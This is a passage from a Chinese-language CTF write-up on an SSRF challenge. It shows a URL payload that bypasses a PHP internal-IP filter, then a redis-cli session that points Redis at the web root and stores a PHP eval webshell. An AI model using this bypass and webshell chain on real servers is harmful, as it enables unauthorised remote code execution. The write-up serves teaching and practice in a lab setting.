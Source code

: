 ```php
        $result_info = curl_getinfo($ch);
        if ($result_info['redirect_url'])
        {
            safe_request_url($result_info['redirect_url']);
        }
        curl_close($ch);
        var_dump($output);
    }

}
if(isset($_GET['url'])){
    $url = $_GET['url'];
    if(!empty($url)){
        safe_request_url($url);
    }
}
else{
    highlight_file(__FILE__);
}
// Please visit hint.php locally.
?>
```

#### 解题过程

在 safe\_request\_url 函数中，接受了 URL 参数后调用 check\_inner\_ip 函数判断是否是内网IP，不是的话才会执行 safe\_request\_url 函数下方的 curl 。而 check\_inner\_ip 函数指定 URL 必须为 `http://, https://, gopher://, dict://` 这几种协议开头，后通过 parse\_url 函数进行解析，而这里检测的 IP 段包括 `127.0.0, 10.0.0, 172.16.0, 192.168.0` 这几个网段。因此这里绕过有两种方式：

1. 绕过 parse\_url 函数
2. 绕过被检测的 IP 段

第一种方法即是在构造 Payload 时使得该函数无法正常解析 URL，即 `http:///` 等。第二种方法即是使用 `0.0.0.0` 来进行绕过。通过构造 Payload 如下

```
?url=http:///127.0.0.1/hint.php
```

即可得到 hint.php 的源码如下

```
<?php
if($_SERVER['REMOTE_ADDR']==="127.0.0.1"){
  highlight_file(__FILE__);
}
if(isset($_POST['file'])){
  file_put_contents($_POST['file'],"<?php echo 'redispass is root';exit();".$_POST['file']);
}
```

可以得知 Redis 的密码为 root ，开始尝试 Redis SSRF ，先通过在本地抓包构造出 Payload ，再通过 gopher 发送。

```shell
$ redis-cli -h 127.0.0.1 -p 6379
127.0.0.1:6379> auth root
(error) ERR AUTH <password> called without any password configured for the default user. Are you sure your configuration is correct?
127.0.0.1:6379> config set dir /var/www/html
(error) ERR CONFIG SET failed (possibly related to argument 'dir') - can't set protected config
127.0.0.1:6379> config set dbfilename webshell.php
(error) ERR CONFIG SET failed (possibly related to argument 'dbfilename') - can't set protected config
127.0.0.1:6379> set -.- "<?php @eval($_POST[1]); ?>"
OK
127.0.0.1:6379> save
OK
127.0.0.1:6379> 
127.0.0.1:6379> 
```